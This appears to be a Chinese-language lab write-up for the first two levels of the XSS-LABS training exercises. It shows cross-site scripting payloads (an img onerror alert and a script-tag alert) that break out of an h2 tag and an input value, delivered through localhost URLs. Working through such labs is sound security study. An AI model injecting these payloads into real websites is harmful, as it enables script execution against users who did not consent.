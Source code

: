 # XSS-LABS

## [1]

- 闭合\<h2\>标签，然后写入新的dom。

```shell
# payload
pettter</h2><img src=广告位招租 onerror=alert('XSS')>

# url
http://localhost:1996/level1.php?name=pettter</h2><img src=广告位招租 onerror=alert('XSS')>
```

![image-20220928130607682](XSS-LABS.assets/image-20220928130607682.png)

## [2]

- 双引号闭合input的value，构造新的dom。

```shell
# payload
pettter"><script>alert('xss')</script><"

# url
http://localhost:1996/level2.php?keyword=pettter"><script>alert('xss')</script><"&submit=搜索
```

![image-20220928132117070](XSS-LABS.assets/image-20220928132117070.png)
